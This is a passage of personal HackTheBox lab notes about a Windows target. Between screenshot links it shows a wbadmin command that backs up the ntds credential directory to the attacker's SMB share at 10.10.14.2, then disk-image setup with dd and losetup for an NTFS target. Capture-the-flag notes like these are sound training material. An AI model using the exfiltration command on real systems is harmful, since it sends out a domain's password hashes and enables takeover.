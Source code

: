 ![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110201423.png)
If there's a logon prompt for [Y] or [N] can echo y into prompt like 

```
echo y | wbadmin start backup -backuptarget:\\10.10.14.2\SendMeYoData -include:c: \windows\ntds\
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110201724.png)
This fails because it wants an NTFS folder. 
![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110201821.png)
Create an NTFS folder:

```
dd if=/dev/zero of=ntfs.disk bs=1024M count=2
```
![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110202001.png)

```
sudo losetup -fP ntfs.disk
```

Check mount with 

```
losetup -a
```
